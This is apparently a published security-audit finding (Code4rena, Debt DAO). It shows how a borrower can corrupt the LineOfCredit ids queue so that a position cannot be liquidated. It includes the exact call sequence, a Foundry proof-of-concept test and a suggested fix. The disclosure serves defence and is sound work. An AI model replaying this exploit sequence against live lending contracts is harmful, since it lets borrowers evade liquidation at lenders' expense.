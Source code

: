 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- sponsor confirmed
- selected for report
- H-05

# [Borrower can craft a borrow that cannot be liquidated, even by arbiter. ](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421) 

# Lines of code

https://github.com/debtdao/Line-of-Credit/blob/e8aa08b44f6132a5ed901f8daa231700c5afeb3a/contracts/modules/credit/LineOfCredit.sol#L516-L538


# Vulnerability details

## Description

LineOfCredit manages an array of open credit line identifiers called `ids`. Many interactions with the Line operate on ids\[0\], which is presumed to be the oldest borrow which has non zero principal. For example, borrowers must first deposit and repay to ids\[0\] before other credit lines. 

The list is managed by several functions:

1.  CreditListLib.removePosition - deletes parameter id in the ids array
2.  CreditListLib.stepQ - rotates all ids members one to the left, with the leftmost becoming the last element
3.  _sortIntoQ - most complex function, finds the smallest index which can swap identifiers with the parameter id, which satisfies the conditions:
    1.  target index is not empty
    2.  there is no principal owed for the target index's credit

The idea I had is that if we could corrupt the ids array so that ids\[0\] would be zero, but after it there would be some other active borrows, it would be a very severe situation. The whileBorrowing() modifier assumes if the first element has no principal, borrower is not borrowing. 

```
modifier whileBorrowing() {
    if(count == 0 || credits[ids[0]].principal == 0) { revert NotBorrowing(); }
    _;
}
```

It turns out there is a simple sequence of calls which allows borrowing while ids\[0\] is deleted, and does not re-arrange the new borrow into ids\[0\]!

1.  id1 = addCredit() - add a new credit line, a new id is pushed to the end of ids array.
2.  id2 = addCredit() - called again, ids.length = 2
3.  close(id1) - calls removePosition() on id1, now ids array is \[0x000000000000000000000000, id2 \]
4.  borrow(id2) - will borrow from id2 and call _sortIntoQ. The sorting loop will not find another index other than id2's existing index (`id == bytes32(0)` is true).

From this sequence, we achieve a borrow while ids\[0\] is 0! Therefore, credits\[ids\[0\]\].principal = credits\[0\].principal = 0, and whileBorrowing() reverts.

The impact is massive - the following functions are disabled:

- SecureLine::liquidate()
- LineOfCredit::depositAndClose()
- LineOfCredit::depositAndRepay()
- LineOfCredit::claimAndRepay()
- LineOfCredit::claimAndTrade()

## Impact

Borrower can craft a borrow that cannot be liquidated, even by arbiter. Alternatively, functionality may be completely impaired through no fault of users.

## Proof of Concept

Copy the following code into LineOfCredit.t.sol

```
function _addCreditLender2(address token, uint256 amount) public {
    // Prepare lender 2 operations, does same as mintAndApprove()
    address lender2 = address(21);
    deal(lender2, mintAmount);
    supportedToken1.mint(lender2, mintAmount);
    supportedToken2.mint(lender2, mintAmount);
    unsupportedToken.mint(lender2, mintAmount);
    vm.startPrank(lender2);
    supportedToken1.approve(address(line), MAX_INT);
    supportedToken2.approve(address(line), MAX_INT);
    unsupportedToken.approve(address(line), MAX_INT);
    vm.stopPrank();
    // addCredit logic
    vm.prank(borrower);
    line.addCredit(dRate, fRate, amount, token, lender2);
    vm.stopPrank();
    vm.prank(lender2);
    line.addCredit(dRate, fRate, amount, token, lender2);
    vm.stopPrank();
}
function test_attackUnliquidatable() public {
    bytes32 id_1;
    bytes32 id_2;
    _addCredit(address(supportedToken1), 1 ether);
    _addCreditLender2(address(supportedToken1), 1 ether);
    id_1 =  line.ids(0);
    id_2 =  line.ids(1);
    hoax(borrower);
    line.close(id_1);
    hoax(borrower);
    line.borrow(id_2, 1 ether);
    id_1 =  line.ids(0);
    id_2 = line.ids(1);
    console.log("id1 : ", uint256(id_1));
    console.log("id2 : ", uint256(id_2));
    vm.warp(ttl+1);
    assert(line.healthcheck() == LineLib.STATUS.LIQUIDATABLE);
    vm.expectRevert(ILineOfCredit.NotBorrowing.selector);
    bool isSolvent = line.declareInsolvent();
}
```

## Tools Used

Manual audit

## Recommended Mitigation Steps

When sorting new borrows into the ids queue, do not skip any elements.